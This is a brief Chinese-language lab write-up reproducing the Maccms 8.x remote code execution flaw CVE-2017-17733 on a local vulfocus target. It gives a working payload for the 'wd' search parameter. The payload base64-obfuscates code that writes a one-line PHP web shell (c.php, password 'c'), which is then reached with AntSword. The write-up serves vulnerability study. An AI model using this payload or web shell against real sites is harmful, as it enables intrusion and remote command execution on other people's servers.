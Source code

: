 ### maccms-cve_2017_17733

Maccms是一套跨平台的基于PHP和MySQL快速建站系统。 Maccms 8.x版本中存在安全漏洞。远程攻击者可借助index.php?m=vod-search请求中的‘wd’参数利用该漏洞执行命令。

#### 环境搭建

靶机：CentOS7（192.168.2.110）

利用本地vulfocus平台一键搭建maccms环境：

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220114095012.png)

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220114095041.png)

环境搭建完成

<br>

#### 漏洞利用

访问http://192.168.2.110:59973/index.php?m=vod-search

post提交payload：

```
wd={if-A:print(fputs%28fopen%28base64_decode%28Yy5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29)}{endif-A}
```

payload上床了一句话木马c.php，连接密码为c

执行上传后用yijian连接：

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220114095817.png)

<br>

#### 漏洞原理

参考：

[(134条消息) 眉间雪之maccms8.x版RCE代码审计_CSDNPM250的博客-CSDN博客_苹果cms代码审计](https://blog.csdn.net/CSDNPM250/article/details/104717372/)

